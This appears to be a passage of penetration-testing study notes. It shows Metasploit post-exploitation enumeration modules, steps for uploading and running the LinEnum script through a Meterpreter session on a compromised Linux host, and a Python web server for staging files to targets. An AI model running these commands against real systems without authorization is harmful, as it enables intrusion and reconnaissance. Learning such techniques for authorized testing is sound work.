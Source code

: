 **Post exploitation**

```shell
# set SESSION 1

use post/linux/gather/enum_configs
use post/linux/gather/enum_network
use post/linux/gather/enum_system
```

Automating local enumeration with **LinEnum**

```shell
# You will need to copy the content of the script in raw format and paste it into a text file
# We can now navigate back to our meterpreter session and navigate to the tmp drive by running the following command
cd /tmp
upload /root/Desktop/LinEnum.sh
shell
/bin/bash -i
chmod +x LinEnum.sh
./LinEnum.sh
```

<br>

## 3. Transferring Files To Windows & Linux Targets

### 3.1. Setting up a Web Server with Python

**Objective:** To cover the process of setting up a web server with Python to facilitate files from an attacker's system to the target system.

In some cases, you won’t have a Meterpreter session on the target, so you’ll need to use built-in OS tools to transfer files manually. It’s essential to know how to move files from your machine to the compromised target, regardless of its operating system - **never rely solely on Meterpreter**.

The file transfer process has two steps:
1. **Host the file** on a web server (your system).
2. **Download the file** from the target machine.

In this section, we focus on step 1: hosting the file.
Instead of setting up a full web server like Apache or Nginx, you can use the faster and simpler option:

```shell
# Python 3
python3 -m http.server 80

# Python 2
python -m SimpleHTTPServer 80
```

### 3.2. Transferring Files to Windows Targets

**Objective:** To cover the process of transferring files to Windows targets by leveraging a web server running on the Kali Linux system.
